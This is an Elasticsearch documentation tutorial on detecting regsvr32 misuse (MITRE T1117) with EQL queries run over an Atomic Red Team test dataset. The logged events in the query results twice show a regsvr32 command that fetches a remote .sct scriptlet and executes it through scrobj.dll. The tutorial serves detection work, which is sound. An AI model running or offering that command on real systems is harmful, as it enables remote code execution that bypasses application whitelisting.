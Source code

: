 [role="xpack"]
[testenv="basic"]
[[eql-ex-threat-detection]]
== Example: Detect threats with EQL

experimental::[]

This example tutorial shows you how you can use EQL to detect security threats
and other suspicious behavior.

In the scenario, you're tasked with detecting
https://attack.mitre.org/techniques/T1117/[regsvr32 misuse] in Windows event
logs ingested using {winlogbeat-ref}/index.html[Winlogbeat]. Regsvr32 misuse is
a known adversary technique documented in the https://attack.mitre.org[MITRE
ATT&CK®] knowledge base.

[discrete]
[[eql-ex-threat-detection-setup]]
=== Setup

This tutorial uses a test dataset for regsvr32 misuse from
https://github.com/redcanaryco/atomic-red-team[Atomic Red Team]. The dataset has
been normalized and mapped to the {ecs-ref}[Elastic Common Schema (ECS)]. The
dataset includes events that imitate behaviors related to regsvr32 misuse, as
documented by MITRE ATT&CK®.

To get started, download and index the dataset:

. Download the https://raw.githubusercontent.com/elastic/elasticsearch/{branch}/docs/src/test/resources/normalized-T1117-AtomicRed-regsvr32.json[`normalized-T1117-AtomicRed-regsvr32.json`] dataset.

. Index the data into the `sec_logs` index with the following
<<docs-bulk,bulk API>> request:

[source,sh]
----
curl -H "Content-Type: application/json" -XPOST "localhost:9200/sec_logs/_bulk?pretty&refresh" --data-binary "@normalized-T1117-AtomicRed-regsvr32.json"
----
// NOTCONSOLE

. Use the <<cat-indices,cat indices API>> to verify the dataset was indexed
successfully.

[source,console]
----
GET /_cat/indices/sec_logs?v&h=health,status,index,docs.count
----
// TEST[setup:sec_logs]

The API returns the following response. The `docs.count` value should show `150`
documents were indexed.

[source,txt]
----
health status index     docs.count
yellow open   sec_logs         150
----
// TESTRESPONSE[non_json]

[discrete]
[[eql-ex-get-a-count-of-regsvr32-events]]
=== Get a count of `regsvr32.exe` events

Since you're looking for `regsvr32` misuse, start by getting a count of events
using `regsvr32.exe`.

The following <<eql-search-api,EQL search API>> request uses an EQL query to
retrieve a count of events with a `process.name` of `regsvr32.exe`. The query
starts with the <<eql-syntax-match-any-event-category,`any where` keywords>>,
meaning the query can match events of any <<eql-required-fields,event
category>>.

[source,console]
----
GET /sec_logs/_eql/search?filter_path=-hits.events  <1>
{
  "query": """
    any where process.name == "regsvr32.exe"        <2>
  """,
  "size": 150                                       <3>
}
----
// TEST[setup:sec_logs]

<1> Uses the `?filter_path=-hits.events` query parameter to exclude the
`hits.events` property from the response. The `hits.events` property contains
the document source for any matching events. This request is intended to
retrieve a count of events only.
<2> Uses an EQL query to match events with a `process.name` of `regsvr32.exe`.
<3> Returns up to 150 events or sequences matching the EQL query.

The request returns the following response, indicating that 143 events match the
query.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 60,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 143,
      "relation": "eq"
    }
  }
}
----
// TESTRESPONSE[s/"took": 60/"took": $body.took/]

[discrete]
[[eql-ex-check-for-command-line-artifacts]]
=== Check for command line artifacts

Your previous query matched 143 events. Many of these events are likely to be
false positives.

To narrow down the results, check if the command line was used during any of
these events. Append `and process.command_line > 0` to the previous EQL query.
This limits matching results to events that contain a `process.command_line`
value.

You'll also need to remove the `filter_path=-hits.events` query parameter. This
lets you retrieve the document source for any matching events.

[source,console]
----
GET /sec_logs/_eql/search
{
  "query": """
    any where process.name == "regsvr32.exe" and process.command_line > 0
  """,
  "size": 150
}
----
// TEST[setup:sec_logs]

The query matches one event. Based on the event's `process.command_line` value,
`regsvr32.exe` was used to register a script as `scrobj.dll`. This fits known
regsvr32 misuse behavior.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 21,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": "sec_logs",
        "_id": "gl5MJXMBMk1dGnErnBW8",
        "_score": null,
        "_source": {
          "process": {
            "parent": {
              "name": "cmd.exe",
              "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
              "executable": "C:\\Windows\\System32\\cmd.exe"
            },
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
            "executable": "C:\\Windows\\System32\\regsvr32.exe",
            "ppid": 2652
          },
          "logon_id": 217055,
          "@timestamp": 131883573237130000,
          "event": {
            "category": "process",
            "type": "create"
          },
          "user": {
            "full_name": "bob",
            "domain": "ART-DESKTOP",
            "id": "ART-DESKTOP\\bob"
          }
        },
        "sort": [
          131883573237130000
        ]
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 21/"took": $body.took/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-check-for-malicious-script-loads]]
=== Check for malicious script loads

You now know that `regsvr32.exe` was used to register
a potentially malicious script as `scrob.dll`. Next, find any processes that
later load the `scrob.dll` file.

Modify the previous EQL query as follows:

* Change the `any` keyword to `file`. This means the query only matches
events with an `event.category` of `file`.
* Add the `file.name == "scrobj.dll` condition to check for loads of
the `scrobj.dll` file.

[source,console]
----
GET /sec_logs/_eql/search
{
  "query": """
    file where process.name == "regsvr32.exe" and file.name == "scrobj.dll"
  """,
  "size": 150
}
----
// TEST[setup:sec_logs]

The query matches an event, confirming that `scrobj.dll` was later loaded by
`regsvr32.exe`.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 5,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": "sec_logs",
        "_id": "ol5MJXMBMk1dGnErnBW8",
        "_score": null,
        "_source": {
          "process": {
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "executable": "C:\\Windows\\System32\\regsvr32.exe"
          },
          "file": {
            "path": "C:\\Windows\\System32\\scrobj.dll",
            "name": "scrobj.dll"
          },
          "@timestamp": 131883573237450016,
          "event": {
            "category": "file"
          }
        },
        "sort": [
          131883573237450016
        ]
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 5/"took": $body.took/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-detemine-likelihood-of-sucess]]
=== Determine likelihood of success

In many cases, malicious scripts are used to download other remote files. If
this occurred, the attack progressed and might have succeeded.

Use an <<eql-sequences,EQL sequence query>> to check for the following series of
events, in order:

. A `regsvr32.exe` process, which could have been used to register malicious
scripts as `scrobj.dll`
. A load of the `scrobj.dll` file
. Any network event, which could indicate the download of a remote file

To match, each event in the sequence must share the same `process.pid` (process
ID) field value.

[source,console]
----
GET /sec_logs/_eql/search
{
  "query": """
    sequence by process.pid
      [process where process.name == 'regsvr32.exe']
      [file where file.name == 'scrobj.dll']
      [network where true]
  """,
  "size": 150
}
----
// TEST[setup:sec_logs]

The query matches a sequence, indicating the attack likely succeeded.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 25,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "sequences": [
      {
        "join_keys": [
          "2012"
        ],
        "events": [
          {
            "_index": "sec_logs",
            "_id": "gl5MJXMBMk1dGnErnBW8",
            "_score": null,
            "_source": {
              "process": {
                "parent": {
                  "name": "cmd.exe",
                  "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
                  "executable": "C:\\Windows\\System32\\cmd.exe"
                },
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
                "executable": "C:\\Windows\\System32\\regsvr32.exe",
                "ppid": 2652
              },
              "logon_id": 217055,
              "@timestamp": 131883573237130000,
              "event": {
                "category": "process",
                "type": "create"
              },
              "user": {
                "full_name": "bob",
                "domain": "ART-DESKTOP",
                "id": "ART-DESKTOP\\bob"
              }
            },
            "sort": [
              131883573237130000
            ]
          },
          {
            "_index": "sec_logs",
            "_id": "ol5MJXMBMk1dGnErnBW8",
            "_score": null,
            "_source": {
              "process": {
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable": "C:\\Windows\\System32\\regsvr32.exe"
              },
              "file": {
                "path": "C:\\Windows\\System32\\scrobj.dll",
                "name": "scrobj.dll"
              },
              "@timestamp": 131883573237450016,
              "event": {
                "category": "file"
              }
            },
            "sort": [
              131883573237450016
            ]
          },
          {
            "_index": "sec_logs",
            "_id": "EF5MJXMBMk1dGnErnBa9",
            "_score": null,
            "_source": {
              "process": {
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable": "C:\\Windows\\System32\\regsvr32.exe"
              },
              "destination": {
                "address": "151.101.48.133",
                "port": "443"
              },
              "source": {
                "address": "192.168.162.134",
                "port": "50505"
              },
              "network": {
                "protocol": "tcp"
              },
              "@timestamp": 131883573238680000,
              "event": {
                "category": "network",
                "type": "outgoing"
              },
              "user": {
                "full_name": "bob",
                "domain": "ART-DESKTOP",
                "id": "ART-DESKTOP\\bob"
              }
            },
            "sort": [
              131883573238680000
            ]
          }
        ]
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 25/"took": $body.took/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.0._id/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.1._id/]
// TESTRESPONSE[s/"_id": "EF5MJXMBMk1dGnErnBa9"/"_id": $body.hits.sequences.0.events.2._id/]
